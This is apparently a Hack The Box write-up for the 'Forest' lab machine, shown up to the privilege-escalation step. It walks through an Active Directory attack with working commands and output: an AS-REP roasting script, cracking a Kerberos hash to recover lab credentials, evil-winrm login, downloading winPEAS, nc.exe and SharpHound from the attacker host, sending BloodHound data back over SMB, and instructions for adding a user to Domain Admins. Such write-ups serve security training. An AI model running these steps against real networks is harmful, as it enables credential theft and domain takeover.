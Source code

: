# Forest HTB

![image](https://user-images.githubusercontent.com/5285547/124309753-1d9ce980-db63-11eb-91d7-26363021d41c.png)

## Nmap

```
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49676/tcp open  unknown
49677/tcp open  unknown
49684/tcp open  unknown
49703/tcp open  unknown
49915/tcp open  unknown
```

![image](https://user-images.githubusercontent.com/5285547/124294786-fee12780-db4f-11eb-88e6-68fcfdd18055.png)

![image](https://user-images.githubusercontent.com/5285547/124294837-0e607080-db50-11eb-90a6-eed955859f71.png)

Add to /etc/hosts file

## Enum4linux 
- Users
```
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
user:[noodle] rid:[0x1db2]
```

## ASREPRoast
- Users.txt
```
Administrator
andy
lucinda
mark
santi
sebastien
svc-alfresco
```

- Quick and dirty bash script to use with users.txt 

```
#!/bin/bash

file="$1";

for user in $(cat "$file");do
        python3.9 /usr/share/doc/python3-impacket/examples/GetNPUsers.py -no-pass \
  "htb.local/${user}" -dc-ip 10.10.10.161 ;
done
```

Run the script ./ASREPRoast.sh users.txt
```

[*] Getting TGT for Administrator
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for andy
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for lucinda
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for mark
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for santi
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for sebastien
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:136c3526a51157f1e7b050205902811c$f36282d5015687302ace5572a7265c7775000fdd0c83f4a5965dfdc129d028384fcf106744318f3c8d56f787074df01b336a97764532e9cc60c04b4f8c0c4984b6f2c44145b58eb12f3d80b273d8859ecd0d0b7e84842491990ddd17d90e46489b808798b43b157ea3d41998b5a55ac737a97cf7f1cd27a1ae871d1cde63148d12a0a4c45db0486b86c446f056759e77bf0a7cf5bae2c6bbd5bcbe4a646fdd903af7f751c4d187e98ab8dc0b4c2053c1a07947f2ee827789cec2dada31acf363d75ddaa6dcec80645223234ccdb18dae424c2140062ffc9ddcf7bd64938fd368b2d66fb56827
```

## Cracking the hash 

Adding the hash to a new file then using john to crack the Kerberos password

```
john -w=/usr/share/wordlists/rockyou.txt hash 
```

```
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
1g 0:00:00:03 DONE (2021-07-02 16:37) 0.3289g/s 1344Kp/s 1344Kc/s 1344KC/s s4553592..s3r2s1
```
valid creds
```
svc-alfresco:s3rvice
```

## Conencting to the forest 

- WinRm
```
evil-winrm -i 10.10.10.161 -u svc-alfresco -p 's3rvice'
```

![image](https://user-images.githubusercontent.com/5285547/124300141-22a76c00-db56-11eb-8fbc-07b6d3245732.png)

## User flag

Change direcroty to the dekstop to retrive the user flag

user.txt
```
e5e4e47ae{REDACTED}eb013fb0d9ed
```

## User Enumeration

We start the enum again to see what we can do next..  
I transfer winpeas to the machine to do some quick enum for me. 

```
Invoke-WebRequest "http://10.10.14.184:6677/winPEASany.exe" -OutFile "winpea.exe"
```

- Using SharpHound and BloodHound

Bloodhound
```
https://github.com/BloodHoundAD/BloodHound
```

SharpHound
```
https://github.com/BloodHoundAD/SharpHound3
```

Transfer nc.exe for an easier time 
```
Invoke-WebRequest "http://10.10.14.184:8877/nc.exe" -OutFile "nc.exe"
```

Run sharphound after sending it across
```
Invoke-WebRequest "http://10.10.14.184:8877/SharpHound.exe" -OutFile "sharp.exe"
./sharp.exe
```

![image](https://user-images.githubusercontent.com/5285547/124304304-69e42b80-db5b-11eb-856e-7212e9d798c5.png)


Now to get the files back for bloodhound

Setup an smb share on kali

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py MYSHARE ~/forest -smb2support -username haxors -password haxors
```
Auth
```
net use \\10.10.14.184\MYSHARE /u:"haxors" "haxors"
```
Copy the file across
```
copy 20210702093445_BloodHound.zip \\10.10.14.184\MYSHARE
```
Remove the smb share
```
net use /d \\10.10.14.184\MYSHARE
```

Now login to bloodhound gui (or use sudo apt-get install bloodhound)  
Click the upload data buttonv

![image](https://user-images.githubusercontent.com/5285547/124308285-ffce8500-db60-11eb-8f78-a21fc2fd71c1.png)

Once the data is uploaded click the "find shortest path to domain admin"  

![image](https://user-images.githubusercontent.com/5285547/124308486-415f3000-db61-11eb-9bab-a750285bea94.png)

![image](https://user-images.githubusercontent.com/5285547/124308680-8b481600-db61-11eb-939d-573b9d1770d2.png)
 
Right click on the path to the "EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL" then select help.

Help
```
Full control of a group allows you to directly modify group membership of the group.

There are at least two ways to execute this attack.   
The first and most obvious is by using the built-in net.exe binary in Windows   
(e.g.: net group "Domain Admins" harmj0y /add /domain).  
See the opsec considerations tab for why this may be a bad idea. The second, and highly recommended method,   
is by using the Add-DomainGroupMember function in PowerView. This function is superior to using the net.exe  
binary in several ways. For instance, you can supply alternate credentials, instead of needing to run a process  
as or logon as the user with the AddMember privilege. Additionally, you have much safer execution options than   
you do with spawning net.exe (see the opsec tab).

To abuse this privilege with PowerView's Add-DomainGroupMember, 
first import PowerView into your agent session or into a PowerShell instance at the console. 
You may need to authenticate to the Domain Controller as a member of ACCOUNT OPERATORS@HTB.LOCAL if you are not running a process as a member.  
To do this in conjunction with Add-DomainGroupMember, first create a PSCredential object (these examples comes from the PowerView help documentation):

$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)  

Then, use Add-DomainGroupMember, optionally specifying $Cred if you are not already running a process as ACCOUNT OPERATORS@HTB.LOCAL:  

Add-DomainGroupMember -Identity 'Domain Admins' -Members 'harmj0y' -Credential $Cred  

Finally, verify that the user was successfully added to the group with PowerView's Get-DomainGroupMember:  

Get-DomainGroupMember -Identity 'Domain Admins'
```


